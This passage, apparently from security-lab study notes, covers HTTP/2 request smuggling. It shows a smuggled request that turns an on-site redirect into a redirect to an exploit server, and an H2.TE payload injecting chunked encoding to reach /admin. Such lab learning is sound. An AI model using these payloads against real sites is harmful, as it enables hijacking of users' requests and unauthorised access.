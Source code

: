 It's also interesting, that there's a req:
```bash
GET /resources/js/analytics.js HTTP/2
```
Which returns a js file in the response. If we change the req url to the following:
```bash
GET /resources/js HTTP/2
```
Then in response we'll get a redirect:
```bash
HTTP/2 302 Found
Location: https://0ae700f603b9e4588078eee200b400a6.web-security-academy.net/resources/js/
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

This redirect is a really dangerous thing in combination with req smuggling
To understand the following please read `Using HTTP request smuggling to turn an on-site redirect into an open redirect` but in a nutshell, the backend uses the value of the Host header to know where to redirect clients

So to redirect victim to the exploit server we create and send the attack req:
```bash
POST / HTTP/2
Host: 0a6b0063047a3c45802967ed00e500f8.web-security-academy.net
Cookie: session=PlXHVNlsp0VqG0M8gscMaceD1kPhAThG
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
GET /resources/js HTTP/1.1
Host: exploit-0ac200b604ea3cfc8034665d01ef00b9.exploit-server.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

x=
```

### H2.TE vulnerabilities
Chunked transfer encoding is incompatible with HTTP/2 and the spec recommends that any transfer-encoding: chunked header you try to inject should be stripped or the request blocked entirely. If the front-end server fails to do this, and subsequently downgrades the request for an HTTP/1 back-end that does support chunked encoding, this can also enable request smuggling attacks.

Front-end (HTTP/2)
```bash
:method 	POST
:path 	/example
:authority 	vulnerable-website.com
content-type 	application/x-www-form-urlencoded
transfer-encoding 	chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: bar
```
